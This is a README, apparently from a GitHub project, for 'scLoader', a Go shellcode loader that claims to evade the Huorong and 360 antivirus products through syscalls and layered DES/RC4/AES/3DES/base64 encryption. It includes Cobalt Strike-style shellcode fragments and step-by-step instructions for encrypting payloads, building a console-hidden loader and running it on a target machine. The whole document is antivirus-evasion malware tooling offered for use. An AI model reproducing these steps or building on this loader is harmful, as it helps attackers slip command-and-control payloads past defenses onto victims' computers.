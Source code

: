 # scLoader: shellcode 加载器

## 效果
目前测试了火绒和360，静态动态都能免杀，静态VT检测效果一般

## 特点
- 基于Syscall进行免杀shellcode加载
- 已经实现的加密/编码：des,rc4,aes,3des,base64
- 在已实现的加密方式中，加密顺序可以随意指定

## 支持shellcode格式
目前支持CS中C语言格式和Raw格式的shellcode

**C语言字符串格式shellcode**
```
/* length: 891 bytes */
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52......";
```

**纯十六进制格式的shellcodes**
```
fc48 83e4 f0e8 c800 0000 4151 4150 5251
5648 31d2 6548 8b52 6048 8b52 1848 8b52
2048 8b72 5048 0fb7 4a4a 4d31 c948 31c0
ac3c 617c 022c 2041 c1c9 0d41 01c1 e2ed
```

## 使用
1、编译sparrow.go(不想编译直接`go run`也行)

找到项目中builder/sparrow.go文件，然后如图编译即可

![](https://github.com/Peithon/scLoader/blob/master/imgs/build-sparrow.png)

2、使用sparrow.exe加密shellcode

在CS中生成需要格式的shellcode，将CS生成的原始.bin文件或.c文件放在sparrow.exe同一目录，使用命令

```
#.bin文件
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.bin
#.c文件
.\sparrow.exe -e des,rc4,aes,3des,base64 -f .\payload.c
```
***注意：-e参数必须使用base64编码结尾***

![](https://github.com/Peithon/scLoader/blob/master/imgs/shellcode-encode.png)

3、将加密之后的shellcode填充到/loader/loader.go中的shellcode变量

4、按照加密顺序填充到/loader/loader.go中的encodestr变量中

![](https://github.com/Peithon/scLoader/blob/master/imgs/add-info.png)

5、编译/loader/loader.go文件
```
go build -trimpath -ldflags="-w -s -H=windowsgui" ./loader/loader.go
```

6、上传到目标机器，使用`loader.exe -fuck`命令加载shellcode


